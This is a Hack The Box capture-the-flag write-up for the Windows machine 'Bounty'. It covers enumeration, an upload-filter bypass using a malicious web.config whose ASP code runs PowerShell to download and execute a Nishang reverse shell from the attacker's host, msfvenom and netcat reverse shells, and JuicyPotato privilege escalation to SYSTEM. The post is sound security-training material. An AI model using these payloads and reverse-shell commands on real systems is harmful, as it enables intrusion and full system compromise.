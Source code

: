 ```yaml
---
permalink: /posts/HTB/Bounty
title:  "HTB Bounty"
author: Luc Kolen
description: "Bounty is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-Easy
  - Windows
  - Filter bypass
  - JuicyPotato
---
```

# 10.10.10.93 - Bounty

|Hack The Box|Created by|Points|
|---|---|---|
|[Link](https://www.hackthebox.eu/home/machines/profile/142)|[mrb3n](https://www.hackthebox.eu/home/users/profile/2984)|20|

- [10.10.10.93 - Bounty](#10101093---bounty)
  - [Open ports](#open-ports)
  - [HTTP](#http)
    - [Gobuster](#gobuster)
    - [File upload](#file-upload)
      - [Bypass](#bypass)
  - [Privilege escalation](#privilege-escalation)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/HTB/Bounty$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.93
```

|Port|Service|Version
|---|---|---|
tcp/80|http|Microsoft IIS httpd 7.5

## HTTP

### Gobuster

The page only shows an image and there is no `robots.txt` we we'll run Gobuster and hope to find some pages.

```bash
luc@kali:~/HTB/Bounty$ gobuster dir -u http://10.10.10.93:80/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -z -k -l -x "txt,html,php,asp,aspx,jsp"
/aspnet_client (Status: 301) [Size: 159]
/transfer.aspx (Status: 200) [Size: 941]
/uploadedfiles (Status: 301) [Size: 159]
```

### File upload

We can upload files on `/transfer.aspx` and those files will probably end up in the `/uploadedfiles` directory.

First we'll generate a shell to upload with MSFvenom.

```bash
luc@kali:~/HTB/Bounty$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f aspx > shell.aspx
```

![Shell upload](/assets/images/HTB-Bounty/1.a%20Shell%20upload.png)

Trying to upload our shell.aspx results in the message `Invalid File. Please try again`.

#### Bypass

.aspx files aren't allowed, but .config files are allowed. We can abuse this by creating a web.config file that connects back to our machine.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
CreateObject("WScript.Shell").Exec("cmd /c powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.16:8000/Invoke-PowerShellTcp.ps1')")
%>
```

```bash
luc@kali:~/HTB/Bounty$ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
luc@kali:~/HTB/Bounty$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443' >> Invoke-PowerShellTcp.ps1
luc@kali:~/HTB/Bounty$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.93 - - [12/Jun/2020 16:16:42] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

```bash
luc@kali:~/HTB/Bounty$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.93.
Ncat: Connection from 10.10.10.93:49158.
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
PS C:\windows\system32\inetsrv> cd \Users\merlin\desktop
PS C:\Users\merlin\desktop> type user.txt
e29ad898************************
```

## Privilege escalation

```bash
PS C:\Users\merlin\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Users\merlin\desktop> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC
```

This machine is vulnerable to JuicyPotato.

```bash
luc@kali:~/HTB/Bounty$ cp /opt/JuicyPotatoBinaries/JuicyPotato.exe .
luc@kali:~/HTB/Bounty$ cp /home/luc/Downloads/netcat-win32-1.12/nc64.exe .
luc@kali:~/HTB/Bounty$ sudo python2 /opt/impacket/examples/smbserver.py share `pwd` -smb2support
```

```bash
PS C:\Users\Merlin\Desktop> net use Z: \\10.10.14.16\share
PS C:\Users\Merlin\Desktop> Z:
PS Z:\> .\JuicyPotato.exe -t * -l 9000 -p nc64.exe -a "-e cmd 10.10.14.16 444"
```

```bash
luc@kali:~/HTB/Bounty$ sudo nc -lnvp 444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::444
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from 10.10.10.93.
Ncat: Connection from 10.10.10.93:49541.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\>whoami
nt authority\system
C:\>cd Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
c837f7b6************************
```

## TL;DR

- Bypass upload filter by sending .config file containing VB code
- JuicyPotato
